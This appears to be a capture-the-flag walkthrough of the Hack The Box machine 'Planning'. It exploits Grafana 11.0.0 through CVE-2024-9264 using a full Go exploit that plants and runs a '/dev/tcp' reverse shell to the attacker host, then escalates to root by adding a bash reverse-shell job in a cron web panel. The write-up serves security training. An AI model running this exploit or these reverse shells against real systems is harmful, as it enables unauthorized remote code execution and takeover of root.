- Machine Name: Planning
- OS Type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration:

As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r

### Port 80/HTTP

i’ll start my enumeration from port 80 visiting the site in web browser it redirect us to planning.htb



let’s add planning.htb into /etc/hosts file and then refresh the page

checking web technologies using whatweb

```bash
whatweb http://planning.htb
```



nothing interesting in gobuster

so i’ll move to Subdomain fuzzing and i used the wfuzz with 

```bash
wfuzz -w main.txt -u http://planning.htb -H "Host: FUZZ.planning.htb" --hh 178
```



let’s add the grafana.planning.htb in /etc/hosts



let’s open the grafana.planning.htb



it disclosed the grafana version v.11.0.0

quick google search reveals that https://github.com/nollium/CVE-2024-9264 

we’ve found the authenticated RCE, as we already provided with the credentials let’s clone the exploit repo.

```bash
./CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c id http://grafana.planning.htb
```



but i was facing issue in getting reverse shell so i moved to another exploit

```bash
package main

import (
    "bytes"
    "encoding/json"
    "flag"
    "fmt"
    "io/ioutil"
    "log"
    "net/http"
    "net/http/cookiejar"
    "time"
)

type SecurityConfig struct {
    GrafanaURL  string
    Credentials struct {
        Username string
        Password string
    }
    RemoteEndpoint struct {
        IP   string
        Port string
    }
    Client    *http.Client
    AuthToken string
}

type GrafanaQuery struct {
    Datasource struct {
        Name string `json:"name"`
        Type string `json:"type"`
        UID  string `json:"uid"`
    } `json:"datasource"`
    Expression string `json:"expression"`
    Hide       bool   `json:"hide"`
    RefID      string `json:"refId"`
    Type       string `json:"type"`
    Window     string `json:"window"`
}

type QueryPayload struct {
    Queries []GrafanaQuery `json:"queries"`
}

func NewSecurityConfig() *SecurityConfig {
    jar, err := cookiejar.New(nil)
    if err != nil {
        log.Fatal(err)
    }
    
    return &SecurityConfig{
        Client: &http.Client{
            Jar: jar,
            Timeout: 30 * time.Second,
            Transport: &http.Transport{
                MaxIdleConns:        10,
                IdleConnTimeout:     30 * time.Second,
                DisableCompression:  true,
            },
        },
    }
}

func (c *SecurityConfig) Authenticate() error {
    payload := map[string]string{
        "user":     c.Credentials.Username,
        "password": c.Credentials.Password,
    }
    jsonData, err := json.Marshal(payload)
    if err != nil {
        return fmt.Errorf("error marshaling auth payload: %v", err)
    }
    // First get the login page to capture CSRF token if any
    resp, err := c.Client.Get(c.GrafanaURL)
    if err != nil {
        return fmt.Errorf("error getting login page: %v", err)
    }
    resp.Body.Close()

    loginURL := fmt.Sprintf("%s/login", c.GrafanaURL)
    req, err := http.NewRequest(http.MethodPost, loginURL, bytes.NewBuffer(jsonData))
    if err != nil {
        return fmt.Errorf("error creating request: %v", err)
    }
    req.Header.Set("Content-Type", "application/json")
    req.Header.Set("Accept", "application/json")
    

    resp, err = c.Client.Do(req)
    if err != nil {
        return fmt.Errorf("authentication request failed: %v", err)
    }
    defer resp.Body.Close()

    body, _ := ioutil.ReadAll(resp.Body)
    
    // Check for token in response headers
    for _, cookie := range resp.Cookies() {
        if cookie.Name == "grafana_session" {
            c.AuthToken = cookie.Value
            break
        }
    }

    if c.AuthToken == "" {
        // Try to get token from response body if it's there
        var response map[string]interface{}
        if err := json.Unmarshal(body, &response); err == nil {
            if token, ok := response["token"].(string); ok {
                c.AuthToken = token
            }
        }
    }
    log.Printf("Response status: %d\n", resp.StatusCode)
    log.Printf("Response body: %s\n", string(body))
    log.Println("✓ Authentication successful")
    return nil
}

func (c *SecurityConfig) CveExploitTest() error {
    endpoint := fmt.Sprintf("/dev/tcp/%s/%s", c.RemoteEndpoint.IP, c.RemoteEndpoint.Port)
    
    payload := QueryPayload{
        Queries: []GrafanaQuery{
            {
                Datasource: struct {
                    Name string `json:"name"`
                    Type string `json:"type"`
                    UID  string `json:"uid"`
                }{
                    Name: "Expression",
                    Type: "__expr__",
                    UID:  "__expr__",
                },
                Expression: fmt.Sprintf("SELECT 1;COPY (SELECT 'sh -i >& %s 0>&1') TO '/tmp/cve_exploit';", endpoint),
                Hide:       false,
                RefID:      "SEC_TEST",
                Type:       "sql",
                Window:     "",
            },
        },
    }
    return c.sendSecurityPayload(payload, "security test preparation")
}

func (c *SecurityConfig) ExecuteExploitTest() error {
    payload := QueryPayload{
        Queries: []GrafanaQuery{
            {
                Datasource: struct {
                    Name string `json:"name"`
                    Type string `json:"type"`
                    UID  string `json:"uid"`
                }{
                    Name: "Expression",
                    Type: "__expr__",
                    UID:  "__expr__",
                },
                Expression: "SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash /tmp/cve_exploit |');",
                Hide:       false,
                RefID:      "SEC_EXEC",
                Type:       "sql",
                Window:     "",
            },
        },
    }

    return c.sendSecurityPayload(payload, "security test execution")
}

func (c *SecurityConfig) sendSecurityPayload(payload QueryPayload, operation string) error {
    jsonData, err := json.Marshal(payload)
    if err != nil {
        return fmt.Errorf("error marshaling payload: %v", err)
    }
    url := fmt.Sprintf("%s/api/ds/query", c.GrafanaURL)
    
    req, err := http.NewRequest(http.MethodPost, url, bytes.NewBuffer(jsonData))
    if err != nil {
        return fmt.Errorf("error creating request: %v", err)
    }

    // Add all required headers
    req.Header.Set("Content-Type", "application/json")
    req.Header.Set("Accept", "application/json")
    if c.AuthToken != "" {
        req.Header.Set("X-Grafana-Token", c.AuthToken)
    }

    // Add query parameters
    q := req.URL.Query()
    q.Add("ds_type", "__expr__")
    q.Add("expression", "true")
    q.Add("requestId", fmt.Sprintf("SEC_%d", time.Now().Unix()))
    req.URL.RawQuery = q.Encode()
    
    resp, err := c.Client.Do(req)
    if err != nil {
        return fmt.Errorf("%s request failed: %v", operation, err)
    }
    defer resp.Body.Close()

    body, _ := ioutil.ReadAll(resp.Body)
    log.Printf("Response status: %d\n", resp.StatusCode)
    log.Printf("Response body: %s\n", string(body))
    if resp.StatusCode != http.StatusOK {
        return fmt.Errorf("%s failed with status: %d", operation, resp.StatusCode)
    }

    log.Printf("✓ %s completed successfully\n", operation)
    return nil
}

func main() {
    config := NewSecurityConfig()
    flag.StringVar(&config.GrafanaURL, "url", "", "Grafana URL (e.g., http://127.0.0.1:3000)")
    flag.StringVar(&config.Credentials.Username, "username", "", "Grafana username")
    flag.StringVar(&config.Credentials.Password, "password", "", "Grafana password")
    flag.StringVar(&config.RemoteEndpoint.IP, "endpoint-ip", "", "Remote endpoint IP for Reverse Shell")
    flag.StringVar(&config.RemoteEndpoint.Port, "endpoint-port", "", "Remote endpoint port for Reverse Shell")
    flag.Parse()
    if config.GrafanaURL == "" || config.Credentials.Username == "" || 
       config.Credentials.Password == "" || config.RemoteEndpoint.IP == "" || 
       config.RemoteEndpoint.Port == "" {
        log.Fatal("All flags are required. Use -h for help")
    }
    if err := config.Authenticate(); err != nil {
        log.Fatal("Authentication error:", err)
    }
    if err := config.CveExploitTest(); err != nil {
        log.Fatal("Reverse shell preparation error:", err)
    }
    if err := config.ExecuteExploitTest(); err != nil {
        log.Fatal("Error while triggering reverse shell:", err)
    }
    log.Printf("✓ Security assessment completed. Monitor endpoint %s:%s\n",
        config.RemoteEndpoint.IP, config.RemoteEndpoint.Port)
}
```

start netcat listener and run the exploit with

```bash
go run exploit.go -endpoint-ip 10.10.14.42 -endpoint-port 443 -password 0D5oT70Fq13EvB5r -url http://grafana.planning.htb -username admin
```





we are in container so we need to get access to actual machine

running env we found the possible username and password 



let’s try to ssh as enzo

```bash
ssh enzo@10.10.11.68
```



user.txt:



in /opt/cronjobs directory i found crontab.db file



looks like it manages the cron jobs on the system then i found the internally running service on port 8000

let’s try to forward it to our machine and then access it over localhost

from kalil

```bash
ssh enzo@10.10.11.68 -L 8000:127.0.0.1:8000
```

access the web app over 127.0.0.1:8000



i tried all the combinations we got previously none of them are working so i used password that we’ve found in crontab.db file with root username



now i created a simple [shell.sh](http://shell.sh)  in /home/enzo folder 

```bash
bash -i >& /dev/tcp/10.10.14.42/443 2>&1
```

create a new cronjob by clicking on blue button “New”



save and start netcat listener on port 443

click on run now and we’ll get the shell as root



got the shell as root.!

